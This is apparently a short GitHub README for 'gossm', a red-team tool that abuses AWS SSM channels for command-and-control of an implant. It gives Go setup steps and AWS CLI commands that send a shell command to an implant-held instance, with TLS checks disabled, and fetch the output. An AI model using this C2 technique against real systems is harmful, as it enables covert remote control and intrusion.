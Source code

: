 # gossm
Abuses AWS SSM Channels for C2 communication. Project is not maintained and was used during a red team op.

# Setup
export GO111MODULE=off

go get ./..

go run main.go

# send command to implant
aws --no-verify-ssl ssm send-command \
    --instance-ids "mi-0d416eb76fdc3f731" \
    --document-name "AWS-RunShellScript" \
    --comment "cat" \
    --parameters commands="cat /etc/hosts" \
    --output text --profile sliver --region us-east-1

# get command output
aws ssm get-command-invocation \                                                                                               130 ↵
    --command-id "8c4a6c6e-236e-416b-8b77-d9b3a0e73c8f" \
    --instance-id "mi-0d416eb76fdc3f731" --profile sliver --region us-east-1 --no-verify-ssl

